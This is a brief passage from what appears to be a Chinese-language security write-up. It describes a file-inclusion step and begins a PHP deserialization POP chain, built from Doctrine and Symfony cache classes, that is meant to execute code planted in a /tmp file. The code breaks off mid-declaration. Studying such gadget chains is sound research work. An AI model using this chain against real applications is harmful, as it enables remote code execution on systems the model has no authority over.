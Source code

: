 [![](assets/1698893201-f33ae99f65cf662867b8a2ab6d1e304b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231028001744-5c8e1e62-74e4-1.png)

实现文件包含的最后一步是为 `file` 属性定义一个值，下面的 POP 链旨在执行之前生成的 `/tmp/aaa.mocksess` 文件中自定义的代码。

```bash
<?php

namespace Doctrine\Common\Cache\Psr6
{
    class CacheAdapter
    {
        public $deferredItems = true;
    }
    class TypedCacheItem
    {
        public $expiry = 1;
        public $value = "test";
    }

}

namespace Symfony\Component\Cache\Adapter
{
    class PhpArrayAdapter
```